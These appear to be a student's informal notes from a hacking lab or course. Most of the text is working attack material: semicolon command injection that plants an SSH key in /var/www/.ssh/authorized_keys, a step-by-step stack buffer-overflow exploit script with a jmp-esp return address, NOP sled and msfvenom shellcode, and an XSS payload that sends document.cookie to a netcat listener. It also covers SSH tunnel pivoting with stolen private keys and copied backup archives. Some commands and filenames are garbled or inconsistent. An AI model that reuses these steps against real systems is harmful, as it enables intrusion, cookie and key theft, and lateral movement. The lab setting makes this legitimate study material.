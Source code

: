 Studying and shit for keygen
; mkdir /var/www/.ssh
; ls lisa /var/www
(in your terminal on linux) ssh-keygen -t rsa (this makes your key)
(terminal) cat ~/.ssh/id_rsa.pub
; echo "THE ENTIRE KEY" >> /var/www/.ssh/authorized_keys (including the first part, and the student@linops)
; cat /var/www/.ssh/authorized_keys
ssh -S /tmp/DEV DEV -O forward -L2222:10.208.50.42:22 SOCKET2
ssh www-data@localhost -p2222
(this may give an error, run the ssh-keygen command it shows)

Instead of /var/www , it may be within a systems user. This could be seen as /home/Comrade/.ssh/authorized_keys
If you are going into someone's ssh known as comrade. This can be applied into the lesson by using the extranet.
################################################################################################################################
Linux python script and such
################################################################################################################################
### Linux
disass <function> #
Certain scripts can take user input ./func <<<$(echo "sjdlfnmlse")
Certain scripts can take parameters ./func $(echo "ojksdmiosdkosf")
gdb ./inventory.exe -> run <<<$(pyhton peebuff.py)

vim
gdb ./func -> run -> info functions -> pdisass main -> pdisass getuserinput
If a system does not have the peda plugin, open-source research the functions and find vulnerabilities.

####
vim lynnbuff.py
#!/usr/bin/env python

offset = "wijejnsoifoosmkefmsks"
print(offset)
#####
firefox on linux workstation -> wiremask.eu -> tools -> buffer overflow pattern generator
Instructor pointer is what we are targeting, EIP.
Copy the Hex given, use that HEX to find the offset (Register Value), use that offset to find the actual offset.

After finding the offset, recreate script as
####
#!/usr/bin/env python

offset = "wijejnsoifoosmkefmsks"
eip = "BBBB"
print(offset+eip)
#####
type shell in your peda -> env - gdb ./func -> show env -> unset env COLUMNS , unset env LINES -> show env
ctrl + c -> info proc map -> find /b (START HEX AFTER HEAP), (END IN HEX LINE), 0xff, 0xe4
(0xe4 and 0xff are jump locations)
####
#!/usr/bin/env python

offset = "wijejnsoifoosmkefmsks"
eip = "BBBB"
print(offset+eip)

'''
HEX1 -> Little Endian (from the back) 
HEX2
HEX3
HEX4
HEX5
'''
#####
type shell in your peda -> env - gdb ./func -> show env -> unset env COLUMNS , unset env LINES -> show env -> run -> ctrl+C DO NOT ENTER
info proc map -> find /b (START HEX AFTER HEAP), (END IN HEX LINE), 0xff, 0xe4
(0xe4 and 0xff are jump locations)
####
#!/usr/bin/env python

offset = "wijejnsoifoosmkefmsks"
eip = "\x59\x3b\xde\xf7"
nop = "\x90" * 15
print(offset+eip+nop)

'''
HEX1 -> Little Endian (from the back) 
HEX2
HEX3
HEX4
HEX5
'''
#####
make your eip your first little endian
0xf7de3b59 -> \x59\x3b\xde\xf7"
0xf7f588ab
0xf7f645fb
0xf7f6460f
0xf7f64aeb

quit to leave gbd or shell to go to shell

msfvenom -p linux/x86/exec CMD=whoami -b '\x00' -f python

#####
type shell in your peda -> env - gdb ./func -> show env -> unset env COLUMNS , unset env LINES -> show env
ctrl + c -> info proc map -> find /b (START HEX AFTER HEAP), (END IN HEX LINE), 0xff, 0xe4
(0xe4 and 0xff are jump locations)
####
#!/usr/bin/env python

offset = "wijejnsoifoosmkefmsks"
eip = "\x59\x3b\xde\xf7"
nop = "\x90" * 15
buf = 
print(offset+eip+nop+buf)

'''
HEX1 -> Little Endian (from the back) 
HEX2
HEX3
HEX4
HEX5
msfvenom -p linux/x86/exec CMD=whoami -b '\x00' -f python
'''
#####
If there is an error regenerate msfvenom buf lines and reattempt.
./func <<<$(python linbuff.py)

0xf7def000 0xffffe000
################################################################################################################################################################
Cross-Site Scripting:
################################################################################################################################################################
nc -l 127.0.0.1 42070
<script>document.location="http://127.0.0.1:42070/?username=" + document.cookie;</script>


When going from extranet into intra net, you are setting up your localhost like above, the: ssh -S /tmp/DEV DEV -O forward -LLOCALPORT:extranet 
is going to forward your socket that you made (the master socket named DEV) and send it to the extranet IP through the port that you made to forward it (the -L PORT)
Now when you run a localhost ssh ( ssh USERNAMEOFEXTRANET@localhost -p LOCALPORTYOUMADE) it will send you into the extranet.
Things i need to make sure work is doing this with a -D 9050 to send proxychains, but i believe it works. With this you are going to then steal the ssh key OF extranet (cat ~/.ssh/id_rsa.pub)
and save this key that you find into a file named StolenKey, from there you chmod 600 the folder, making sure to double check everything as to not overwrite your ssh key, 
and then you masquerade sshkey to get into the intranet ip you found (cat /etc/hosts , /etc/crontab) Jane will be the device name (intranet) and the IP will be intranet IP.
cat /etc/crontab wioll get you the cronjobs, youll see the backup.tar file in there.
 chmod 600 /home/student/stolenkey
 ssh -i /home/student/stolenkey jane@1.2.3.4
 
scp -P 20010 www-data@localhost:/tmp/backup.gz /home/student/backup.tar.gz
chmod 600 stolenkey1
tar -xvf /home/student/stolenkey1 -C /home/student/stolenkey1_gun

chmod 600 /home/student/stolenkey1_gun/.ssh/id_rsa.pub
ssh -i /home/student/stolenkey1_gun/.ssh/id_rsa Comrade@192.168.150.253 -p 41011

ssh -MS /tmp/hype hype -O forward student@JUMP -L 41010:192.168.28.100:2222
ssh student@localhost -p 41010 -d 9050
ssh comrade@localhost -p 41010 -L 41011:192.168.150.253:3201 -D 9050
ssh -i /home/student/stolenkey/.ssh comrade@localhost -p 41011

To get into the T3, you first need to establish connection to your T1 from your box, this is the master socket. From there you use a localhost login on the local port you opened up to connect to the jump on its open ssh port. You then set up a local port connecting to your T1's socket that now connects to the T3 on its open ssh port, and you can send proxychains up through that as well. Now you masquerade using the T1's ssh key , which is the ssh -i, connecting to the port you set up that sends yourself into the T3.
